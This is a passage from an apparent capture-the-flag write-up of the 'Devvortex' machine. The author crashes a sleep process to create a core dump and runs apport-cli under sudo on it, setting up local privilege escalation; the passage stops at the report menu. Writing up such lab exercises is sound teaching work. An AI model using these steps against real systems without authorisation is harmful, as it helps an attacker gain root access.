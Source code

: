 #### Crash sleep

To exploit this, I’ll need something legit to read. The easiest way is to just generate a dump file. I’ll start program running in the background:

```
logan@devvortex:~$ sleep 20 &
[1] 7650

```

`&` tells the OS to run the program in the background, and return focus to the shell. 7650 is the process id (PID) for that process. I’ll send a signal to that process to crash it with `kill -ABRT`:

```
logan@devvortex:~$ kill -ABRT 7650
logan@devvortex:~$
[1]+  Aborted                 (core dumped) sleep 20

```

The command returns (after sending the signal) and prints the next prompt, and after a slight delay, when the `sleep` process dies, it prints to the terminal. Now there’s a dump file in `/var/crash`:

```
logan@devvortex:~$ ls /var/crash/
_usr_bin_sleep.1000.crash

```

Now I can run `apport-cli` pointing to this file:

```
logan@devvortex:~$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
*** Send problem report to the developers?
After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):

```

#### With apport-cli

There are alternative ways to generate dump data to look at. For example, running `apport-cli -f` will offer a menu of choices:

```
logan@devvortex:~$ sudo apport-cli -f

*** What kind of problem do you want to report?

Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
```
